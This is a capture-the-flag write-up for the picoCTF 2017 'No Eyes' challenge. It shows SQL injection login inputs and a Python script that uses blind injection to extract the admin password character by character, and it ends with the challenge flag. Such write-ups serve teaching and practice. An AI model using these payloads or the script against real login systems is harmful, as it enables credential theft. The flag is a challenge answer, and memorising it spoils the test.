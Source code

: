 ## No Eyes - 125

### Description

The [website](http://shell2017.picoctf.com:40788/) isn't really me much, but you can still get the admin password, right?

### Hint

  - Sometimes an error message can be just as useful.

### Write up

    username: admin'
    password: b

    select * from users where user = 'admin'';

---

    username: admin
    password: b'

    select * from users where pass = 'b'';

So, the server use select statement 2 times to validate user.

---

    username: admin
    password: ' or user='admin

    Login Functionality Not Complete. Flag is 63 characters

What we want is the admin password, so let's try blind sql injection.

```python
import requests

url = 'http://shell2017.picoctf.com:40788/'

alnum = '1234567890abcdefghijklmnopqrstuvwxyz_'
# alnum = '1234567890abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ~!@#$^&*()-=+_%'
num = '1234567890'

pw = ''
for idx in range(1, 64+1):
    for al in alnum:
        payload = {
            'username': "admin",
            'password': "' or user='admin' and substr(pass, %d, 1)='%s" % (idx, al),
        }

        while True:
            try:
                response = requests.post(url=url, data=payload)
                r = response.text
                break
            except:
                pass

        if 'Login Functionality Not Complete.' in r:
            print(idx, al)
            pw = pw + al
            break

        else:
            pass

print(pw)
```

> not_all_errors_should_be_shown_faa8380e951439eebb3d452b5e86f3f9
